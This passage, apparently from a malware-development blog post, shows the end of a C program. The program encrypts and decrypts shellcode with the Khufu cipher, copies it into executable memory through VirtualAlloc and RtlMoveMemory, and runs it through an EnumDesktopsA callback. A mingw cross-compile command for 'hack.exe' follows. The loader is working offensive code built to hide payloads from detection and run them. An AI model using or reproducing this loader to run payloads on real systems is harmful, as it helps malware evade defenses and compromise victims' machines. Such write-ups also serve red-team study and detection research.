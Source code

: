 ```cpp
  for (int i = 0; i < my_payload_len; i++) {
  printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  khufu_encrypt_shellcode(padded, pad_len);

  printf("encrypted shellcode: ");
  for (int i = 0; i < pad_len; i++) {
  printf("%02x ", padded[i]);
  }
  printf("\n\n");

  khufu_decrypt_shellcode(padded, pad_len);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
  printf("%02x ", padded[i]);
  }

  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);
  return 0;
}
```

So, this example demonstrates how to use the Khufu encryption algorithm to encrypt and decrypt payload. For checking correctness, added comparing and printing logic.   

### demo

Let’s go to see everything in action. Compile it (in my `linux` machine):    

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

![cryptography](/assets/images/130/2024-07-22_20-31.png){:class="img-responsive"}      
